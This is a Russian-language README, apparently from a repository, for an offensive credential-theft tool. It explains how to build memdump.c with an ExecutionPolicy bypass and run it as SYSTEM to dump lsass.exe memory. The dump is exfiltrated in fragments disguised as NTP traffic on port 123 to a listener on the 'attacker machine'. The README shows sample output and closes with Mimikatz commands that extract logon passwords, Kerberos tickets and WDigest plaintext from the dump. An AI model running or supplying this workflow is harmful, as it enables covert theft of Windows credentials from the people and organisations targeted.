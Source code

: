 ## Установка и компиляция
### Windows (PowerShell)
Если вы используете Visual Studio Code или другую настроенную среду:
1. Откройте окно PowerShell и выполните:
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   Этот скрипт компилирует memdump.c, подключая необходимые библиотеки.

## Использование
1. Запустите дампер
   На Windows выполните:
   .\memdump.exe
   Введите IP адрес и порт получателя для эксфильтрации.
   Приложение должно запускаться с правами SYSTEM, чтобы получить доступ к памяти процесса.

2. Запустите слушателя
   На машине атакующего запустите:
   python3 server.py
   Скрипт слушаетпорт 123 NTP, собирает входящие фрагменты, декомпрессирует дамп памяти и сохраняет его в виде файла dump_memory.bin.

### Дампинг

[*] Введите IP получателя: 192.168.1.100
[*] Введите порт получателя: 123
[+] Расшифрован целевой процесс: lsass.exe
[+] Процесс lsass.exe найден с PID 1234
[+] Дамп памяти завершен. Размер: 16 МБ.
[+] Сжатие завершено. Сжатый размер: 512 КБ.
[+] Заголовок отправлен: 128 фрагментов, 512 КБ в сумме.
[+] Пакет с данными для фрагмента 1 из 128 отправлен.
[+] Передача завершена.

### Слушатель

[INFO] Прослушивание на 0.0.0.0:123 (общий таймаут: 30 сек)
[INFO] Заголовок получен: 128 фрагментов, 512 КБ сжатого размера.
[INFO] Получение пакетов...
[Восстановление] [========------] 50% (64/128)
[INFO] Все фрагменты получены.
[INFO] Декомпрессия...
[INFO] Дамп сохранен как dump_memory.bin.

## Анализ дампа с помощью Mimikatz
После получения файла dump_memory.bin используйте Mimikatz для извлечения информации:
- Скачайте Mimikatz:
- Запустите Mimikatz:
- Загрузите и проанализируйте дамп памяти:
  mimikatz # sekurlsa::minidump dump_memory.bin
  mimikatz # sekurlsa::logonpasswords
  Первая команда загружает дамп памяти.
  Вторая команда извлекает и отображает учетные данные логонов.
- Извлечение дополнительной информации:
  mimikatz # sekurlsa::tickets
  mimikatz # sekurlsa::wdigest
  Команда sekurlsa::tickets извлекает Kerberos.
  Команда sekurlsa::wdigest извлекает данные в открытом виде, хранящиеся в WDigest.

